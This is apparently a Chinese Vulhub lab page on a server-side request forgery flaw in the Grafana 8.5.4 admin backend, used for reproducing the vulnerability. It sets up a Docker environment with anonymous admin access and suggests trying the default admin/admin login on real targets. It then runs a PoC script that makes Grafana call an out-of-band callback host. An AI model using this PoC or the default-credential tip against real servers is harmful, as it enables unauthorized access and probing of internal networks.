


Grafana管理后台SSRF¶
Grafana是一个开源的度量分析与可视化套件。在其管理后台中存在一个功能，攻击者可以用于向任意地址发送HTTP请求，且支持自定义HTTP Header。
参考链接：
漏洞环境¶
执行如下命令启动一个Grafana 8.5.4：
docker compose up -d
环境启动后，访问http://your-ip:3000即可查看到管理后台。这个管理后台是不需要登录的，因为Vulhub环境设置了匿名用户的权限：
[auth.anonymous]
enabled = true
org_role = Admin
在真实场景中，如果你没有权限访问管理界面，可以尝试使用默认账号密码admin和admin，只能能够成功登录后台的用户才能利用这个漏洞。
漏洞复现¶
使用这个POC来复现SSRF漏洞：
python grafana-ssrf.py -H http://your-ip:3000 -u http://example.interact.sh/attack

可见，我们的反连平台已成功收到了HTTP请求：
